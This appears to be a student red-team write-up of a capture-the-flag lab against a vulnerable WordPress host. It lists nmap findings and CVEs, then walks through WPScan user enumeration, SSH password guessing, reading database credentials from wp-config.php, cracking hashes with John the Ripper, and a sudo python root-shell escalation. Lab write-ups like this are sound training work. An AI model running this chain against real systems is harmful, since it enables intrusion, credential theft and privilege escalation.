 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -O -sV 192.168.1.110
  ![Target 1 nmap scan]()
```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (TCP port 22) - OpenSSH 6.7p1
  - HTTP (TCP port 80) - Apache 2.4.10
  - rpcbind (TCP port 111) - 2-4 (RPC #100000)
  - netbios-ssn (TCP port 139) - Samba 3.X - 4.X
  - microsoft-ds (TCP port 445) - Samba 3.X - 4.X

The following vulnerabilities were identified on each target:
- Target 1
  - OpenSSH 6.7p1 Denial of Service - High - CVE-2016-0778
  - Apache 2.4.10 HTTP Trailers processing bypass - Low - CVE-2013-5704
  - Apache 2.4.10 mod_cache crash with empty Content-Type header - Low - CVE-2014-3581
  - Apache 2.4.10 mod_proxy_fcgi out-of-bounds memory read - Low - CVE-2014-3583
  - Apache 2.4.10 mod_lua multiple "Require" directive handling is broken - Low - CVE-2014-8109

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate publically accessible users for the wordpress server.
      - wpscan --url 192.168.1.110/wordpress --enumerate u
      - ![WPScan users result]()

      - Guessed password for user michael to gain access to server via SSH.
      - Password: michael
      - ![SSH access gained]()

      - Navigated to /var/www/html and used `cat` to find flag1.
      - ![Flag1]()

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - While logged in as user michael, navigated to /var/www (default directory for apache websites) and used cat to obtain flag.
      - `cd /var/www`
      - `cat flag2.txt`
      - ![Flag 2]()

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Found the MySQL root user password in /var/www/html/wordpress/wp-config.php.
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`
      - Root password: R@v3nSecurity
      - ![wp-config.php]()

      - Using the root credentials, logged into the MySQL database and manually checked all tables. Flag 3 found in wp_posts
      - `mysql -u root -p`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW TABLES;`
      - `SELECT * FROM wp_posts;`
      - ![Flag 3]()

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Found user hashes within the MySQL database table `wp_users` for users `michael` and `steven`. Used `john the ripper` to crack the hash for `steven`.
      - `SELECT * FROM wp_users;`
      - ![wp_users]()

      - `john wp_hashes.txt`
      - Password: pink84
      - ![john]()

      - Logged in as user `steven` onto the server and checked if user had sudo permissons.
      - `ssh steven@192.168.1.110`
      - `sudo -l`
      - ![steven ssh & sudo]()

      - Used the below python script to elevate permissions to the `root` user, navigated to the `root` user's home directory and used `cat` to obtain flag4.
      - `sudo python -c 'import os; os.system("/bin/sh")'`
      - `cd ~`
      - `cat flag4.txt`
      - ![flag4]()

